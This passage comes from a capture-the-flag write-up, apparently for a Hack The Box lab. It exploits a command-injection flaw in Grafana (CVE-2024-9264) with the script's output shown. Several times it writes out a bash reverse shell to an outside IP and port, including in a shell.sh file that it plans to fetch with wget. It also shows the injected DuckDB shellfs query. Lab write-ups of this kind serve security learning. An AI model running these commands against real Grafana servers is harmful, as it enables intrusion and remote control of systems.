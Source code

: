 Then we gonna use this command `bash -i >& /dev/tcp/10.10.16.36/3333 0>&1` for our reverse shell.

```bash
└─$ python3 CVE-2024-9264.py -u admin -p '0D5oT70Fq13EvB5r' -c 'bash -i >& /dev/tcp/10.10.16.36/3333 0>&1' http://grafana.planning.htb/     
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: bash -i >& /dev/tcp/10.10.16.36/3333 0>&1
[-] Unexpected response format:
[-] {
    "results": {
        "B": {
            "error": "exit status 1sh: 1: Syntax error: Bad fd number\nIO Error: Pipe process exited with non-zero exit code=\"2\": bash -i >& /dev/tcp/10.10.16.36/3333 0>&1 >/tmp/grafana_cmd_output 2>&1 |\n",
            "errorSource": "",
            "status": 500,
            "frames": []
        }
    }
}
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
total 64
drwxr-xr-x  1 root    root  4096 Mar  1 18:01 .
drwxr-xr-x  1 root    root  4096 May 14  2024 ..
drwxrwxrwx  2 grafana root  4096 May 14  2024 .aws
drwxr-xr-x  3 root    root  4096 Mar  1 18:01 .duckdb
-rw-r--r--  1 root    root 34523 May 14  2024 LICENSE
drwxr-xr-x  2 root    root  4096 May 14  2024 bin
drwxr-xr-x  3 root    root  4096 May 14  2024 conf
drwxr-xr-x 16 root    root  4096 May 14  2024 public
```

So we got some error and trying out with `python` even failed. <br>
&rarr; We will try this approach that we will create a `shell.sh` file and then use `wget` to download and execute it.

But we need to make sure that the `/usr/bin/wget` is available in the system.

```bash
└─$ python3 CVE-2024-9264.py -u admin -p '0D5oT70Fq13EvB5r' -c 'which wget' http://grafana.planning.htb/                                                               
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: which wget
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('which wget >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
/usr/bin/wget
```

Confirmed that it is available. Let's create a `shell.sh` file.

```bash
└─$ cat shell.sh                                           
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.36/3333 0>&1
```
